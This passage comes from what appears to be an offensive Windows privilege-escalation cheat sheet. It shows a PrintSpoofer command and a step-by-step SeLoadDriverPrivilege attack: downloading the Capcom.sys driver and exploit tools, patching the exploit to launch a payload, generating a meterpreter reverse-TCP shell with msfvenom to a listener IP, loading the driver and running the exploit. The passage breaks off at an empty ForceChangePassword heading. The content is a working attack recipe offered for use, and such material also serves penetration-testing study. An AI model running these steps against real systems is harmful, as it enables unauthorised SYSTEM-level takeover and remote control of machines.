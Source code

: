 printspoofer.exe -i -c \"powershell -c whoami\"

<a name="escalate-with-seloaddriverprivilege"></a>
# Escalate With SeLoadDriverPrivilege

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

FIRST:

Download
https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys

Download
https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp

Download https://github.com/tandasat/ExploitCapcom

change ExploitCapcom.cpp line 292

TCHAR CommandLine\[\] = TEXT(\"C:\\\\Windows\\\\system32\\\\cmd.exe\");

to

TCHAR CommandLine\[\] = TEXT(\"C:\\\\test\\\\shell.exe\");

then compile ExploitCapcom.cpp and eoploaddriver.cpp to .exe

SECOND:

1\. msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4
LPORT=4444 -f exe \> shell.exe

2\. .\\eoploaddriver.exe System\\CurrentControlSet\\MyService
C:\\test\\capcom.sys

3\. .\\ExploitCapcom.exe

4\. in msf exec \`run\`

<a name="escalate-with-forcechangepassword"></a>
# Escalate With ForceChangePassword

Domain: Yes

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:
